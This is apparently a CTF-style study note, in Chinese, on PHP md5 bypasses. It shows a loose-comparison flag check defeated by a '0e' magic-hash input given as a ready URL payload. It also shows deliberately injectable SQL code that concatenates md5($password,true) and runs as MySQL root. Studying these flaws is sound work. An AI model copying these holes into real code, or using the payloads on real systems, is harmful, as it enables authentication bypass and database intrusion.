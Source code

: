 ## md5函数验证绕过

**部分源码**
```php
<?php
error_reporting(0);
$flag = 'flag{test}';
$temp = $_GET['password'];
if(md5($temp)==0){
    echo $flag;
}
?>
```

**思路分析**
- 这里选个加密后为0e开头的字符串，再经过弱类型比较后转为0

- 方法一:不赋值
```
http://xxxxxxx/xxx.php
```
- 方法二:
```
http://xxxxxxx/xxx.php?password=s878926199a
```

## md5函数true绕过注入

**部分源码**
```php
<?php
error_reporting(0);
$link = mysql_connect('localhost', 'root', 'root');
if (!$link) {
  die('Could not connect to MySQL: ' . mysql_error());
}
// 选择数据库
$db = mysql_select_db("security", $link);
if(!$db)
{
  echo 'select db error';
  exit();
}
// 执行sql
$password = $_GET['password'];
$sql = "SELECT * FROM users WHERE password = '".md5($password,true)."'";
var_dump($sql);
$result=mysql_query($sql) or die('<pre>' . mysql_error() . '</pre>' );
$row1 = mysql_fetch_row($result);
var_dump($row1);
mysql_close($link);
?>
```
